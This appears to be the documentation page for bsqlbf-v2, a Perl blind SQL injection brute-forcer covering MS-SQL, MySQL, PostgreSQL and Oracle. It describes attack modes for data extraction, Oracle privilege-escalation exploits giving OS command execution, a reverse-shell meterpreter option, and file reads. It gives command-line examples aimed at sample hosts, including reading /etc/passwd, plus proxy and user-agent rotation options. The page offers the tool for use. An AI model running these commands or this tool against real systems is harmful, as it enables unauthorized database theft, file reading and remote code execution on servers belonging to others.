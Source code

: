 This is a modified version of 'bsqlbfv1.2-th.pl'. This perl script allows extraction of data from Blind SQL Injections. It accepts custom SQL queries as a command line  parameter and it works for both integer and string based injections. **Databases supported:**

**0. MS-SQL**

**1. MySQL**

**2. PostgreSQL**

**3. Oracle**


The tool supports 8 attack modes(-type switch):-

---

**Type 0: Blind SQL Injection based on true and false conditions returned by back-end server**

**Type 1: Blind SQL Injection based on true and error(e.g syntax error) returned by back-end server.**

**Type 2: Blind SQL Injection in "order by" and "group by".**

**Type 3: extracting data with SYS privileges (ORACLE dbms\_export\_extension exploit)**

**Type 4: is O.S code execution (ORACLE dbms\_export\_extension exploit)**

**Type 5: is reading files (ORACLE dbms\_export\_extension exploit, based on java)**

**Type 6: is O.S code execution [DBMS\_REPCAT\_RPC.VALIDATE\_REMOTE\_RC exploit](ORACLE.md)**

**Type 7: is O.S code execution [SYS.KUPP$PROC.CREATE\_MASTER\_PROCESS(), DBA Privs](ORACLE.md)**
> -cmd=revshell [Type 7 supports meterpreter payload execution, run generator.exe first](.md)
**Type 8: is O.S code execution [DBMS\_JAVA\_TEST.FUNCALL, with JAVA IO Permissions](ORACLE.md)**
> -cmd=revshell [Type 8 supports meterpreter payload execution, run generator.exe first](.md)


---

For Type 4(O.S code execution) the following methods are supported:

**-stype:        How you want to execute command:**

> SType 0 (default) is based on java..will NOT work against XE.

> SType 1 is against oracle 9 with plsql\_native\_make\_utility.

> SType 2 is against oracle 10 with dbms\_scheduler.


---


**Usage example**:

$./bsqlbf-v2.pl -url http://192.168.1.1/injection_string_post/1.asp?p=1 -method post -match true -database 0 -sql "select top 1 name from sysobjects where xtype='U'"

./bsqlbf-v2.3.pl -url http://192.168.1.1/injection_string_post/1.jsp?p=1 -type 4 -match "true" -cmd "ping notsosecure.com"

---

**User Interface:**
<pre>ubuntu@ubuntu:~$ ./bsqlbf-v2-3.pl<br>
<br>
// Blind SQL injection brute forcer \\<br>
//originally written by...aramosf@514.es  \\<br>
<br>
// mofified by sid-at-notsosecure.com \\<br>
// http://www.notsosecure.com \\<br>
---------------------usage:-------------------------------------------<br>
<br>
Integer based Injection-->./bsqlbf-v2-3.pl - url http://www.host.com/path/script.php?foo=1000 (options)<br>
<br>
String Based Injection-->./bsqlbf-v2-3.pl - url http://www.host.com/path/script.php?foo=bar' (options)<br>
<br>
------------------------------------options:--------------------------<br>
-sql:          valid SQL syntax to get; version(), database(),<br>
(select  table_name from inforamtion_schema.tables limit 1 offset 0)<br>
-get:          If MySQL user is root, supply word readable file name<br>
-blind:        parameter to inject sql. Default is last value of url<br>
-match:        *RECOMMENDED* string to match in valid query, Default is auto<br>
-start:        if you know the beginning of the string, use it.<br>
-length:       maximum length of value. Default is 32.<br>
-time:         timer options:<br>
0:      dont wait. Default option.<br>
1:      wait 15 seconds<br>
2:      wait 5 minutes<br>
<br>
-type:         Type of injection:<br>
0:      Type 0 (default) is blind injection based on True and False responses<br>
1:      Type 1 is blind injection based on True and Error responses<br>
2:      Type 2 is injection in order by and group by<br>
3:      Type 3 !!New!! is extracting data with SYS privileges (ORACLE dbms_export_extension exploit)<br>
4:      Type 4 !!New!! is O.S code execution (ORACLE dbms_export_extension exploit)<br>
5:      Type 5 !!New!! is reading files (ORACLE dbms_export_extension exploit, based on java)<br>
<br>
-file: File to read (default C:\boot.ini)<br>
<br>
-stype:        How you want to execute command:<br>
0:      SType 0 (default) is based on java..will NOT work against XE<br>
1:      SType 1 is against oracle 9 with plsql_native_make_utility<br>
2:      SType 2 is against oracle 10 with dbms_scheduler<br>
-database:     Backend database:<br>
0:      MS-SQL (Default)<br>
1:      MYSQL<br>
2:      POSTGRES<br>
3:      ORACLE<br>
-rtime:        wait random seconds, for example: "10-20".<br>
-method:       http method to use; get or post. Default is GET.<br>
-cmd:          command to execute(type 4 only). Default is "ping 127.0.0.1."<br>
-uagent:       http UserAgent header to use. Default is bsqlbf 2.3<br>
-ruagent:      file with random http UserAgent header to use.<br>
-cookie:       http cookie header to use<br>
-rproxy:       use random http proxy from file list.<br>
-proxy:        use proxy http. Syntax -proxy=http://proxy:port/<br>
-proxy_user:   proxy http user<br>
-proxy_pass:   proxy http password<br>
<br>
---------------------------- examples:-------------------------------<br>
bash# ./bsqlbf-v2-3.pl -url http://www.somehost.com/blah.php?u=5 -blind u -sql "select table_name from imformation_schema.tables limit 1 offset 0" -database 1 -type 1<br>
<br>
bash# ./bsqlbf-v2-3.pl -url http://www.buggy.com/bug.php?r=514&p=foo' -method post -get "/etc/passwd" -match "foo"<br>
</pre>


---

Donations: If you find this tool helpful and would like to make a donation, please visit www.notsosecure.com

---

Finally, thanks to Alexander Kornbrust for sharing the oracle know how with me.